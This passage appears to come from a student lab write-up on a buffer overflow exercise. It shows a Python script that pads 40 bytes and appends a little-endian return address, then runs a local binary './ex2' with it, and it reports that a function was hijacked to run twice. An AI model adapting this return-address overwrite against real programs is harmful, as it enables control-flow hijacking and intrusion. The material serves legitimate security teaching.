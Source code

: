 ### 2.

wrapper.py

```py
#!/usr/bin/python3
# wrapper
import os

# Create a buffer filled with 'x' characters
buff = 40 * (b'x')

# Convert the hexadecimal address to a byte array and reverse it
addr = bytearray.fromhex("4011b6")
addr.reverse()

# Append the reversed address to the buffer
buff += addr

# Print the command being executed for reference
print("exec ./ex2 with buff")

# Execute the external program './ex2' with the modified buffer as an argument
os.execv('./ex2', ['./ex2', buff])

```

![alt text](image-1.png)
From image, the greeting function is run twice.

<div style="page-break-after: always; visibility: hidden">
\pagebreak
</div>
